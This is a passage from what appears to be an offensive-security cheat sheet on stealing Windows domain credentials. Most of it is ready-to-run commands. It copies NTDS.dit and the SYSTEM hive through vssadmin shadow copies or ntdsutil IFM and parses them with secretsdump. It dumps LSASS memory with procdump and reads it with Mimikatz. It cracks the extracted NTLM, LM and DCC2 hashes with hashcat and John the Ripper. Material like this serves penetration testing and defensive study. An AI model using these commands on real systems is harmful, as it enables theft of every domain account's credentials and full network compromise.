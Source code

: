 Create VSS, copy files, then parse:
```
vssadmin create shadow /for=C:
vssadmin list shadows
:: Find the ShadowCopyVolume path with X number below
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SYSTEM C:\temp\SYSTEM.save
```

Parse on attacker:
```
secretsdump.py -ntds NTDS.dit -system SYSTEM.save LOCAL
```

IFM (Install From Media) method (on DC):
```
ntdsutil "ac i ntds" "ifm" "create full C:\temp\ifm" q q
```
Then parse:
```
secretsdump.py -ntds "C:\temp\ifm\Active Directory\ntds.dit" -system C:\temp\SYSTEM.save LOCAL
```

### D) LSASS dump (for live creds; related to hashes/pwds)
On the Windows target (requires admin + SeDebugPrivilege):
```
procdump.exe -accepteula -ma lsass.exe C:\temp\lsass.dmp
```
Analyze with Mimikatz:
```
mimikatz.exe
sekurlsa::minidump C:\temp\lsass.dmp
sekurlsa::logonpasswords
```

### E) Crack extracted hashes
Hashcat examples:
- NTLM (mode 1000):
```
hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --username
```
- LM (mode 3000):
```
hashcat -m 3000 -a 0 lmhashes.txt /usr/share/wordlists/rockyou.txt --username
```
- DCC2/mscash2 (mode 2100):
```
hashcat -m 2100 -a 0 mscash2.txt /usr/share/wordlists/rockyou.txt --username
```

John the Ripper (NTLM):
```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
